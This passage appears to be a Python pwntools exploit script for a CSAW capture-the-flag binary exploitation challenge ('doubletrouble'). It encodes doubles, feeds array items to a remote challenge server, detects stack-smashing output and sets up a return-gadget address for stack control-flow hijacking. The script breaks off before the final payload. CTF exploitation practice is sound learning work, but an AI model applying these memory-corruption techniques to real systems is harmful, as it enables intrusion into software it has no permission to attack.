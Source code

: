```python

def float_unpack(bs):
    return struct.unpack("d", bs)[0]

def float_pack(bs):
    return struct.pack("d", bs)

def float_fmt(fl):
    return "{:.90e}".format(fl)

def quick_fmt(bs, idx):
    print("formatting: {}".format(bs))
    return float_fmt(float_unpack(float_bytes(bs, idx)))

def send_arr_size(r, size):
    r.readuntil('How long: ')
    r.sendline(size)

def send_item(r, it, state):
    print("sending item {}: {}".format(state["count"], it))
    state["count"] += 1
    r.readuntil('Give me: ')
    r.sendline(it)
    r.readline()

def send_rest(r, it, state):
    while state["count"] < 64:
        send_item(r, it, state)

def parse_response(r):
    sorted = False
    orig = {}
    after = {}
    try:
        while True:
            line = r.readline()
            print("line is "+str(line))
            if line == b"Sorted Array:\n":
                sorted = True
                continue
            sp = line.split(b":")
            if sp[0] == b"*** stack smashing detected ***":
                return (False, orig, after)
            if len(sp) < 2:
                break
            if not sorted:
                orig[sp[0]] = sp[1]
            else:
                after[sp[0]] = sp[1]
    except EOFError:
        pass
    return (True, orig, after)

uhex = binascii.unhexlify

while True:
    try:
        myreturnop = 0x0804984F # just some address in the code that contains `ret`
        r = remote("pwn.chal.csaw.io", 9002)
        #r = process("./doubletrouble", env = {})
        #r = gdb.debug("./doubletrouble", "break *0x0804984F\nc", env = {})
        stack_addr = int(r.readline(), 16)
        print("stack addr: 0x{:08x}".format(stack_addr))
```
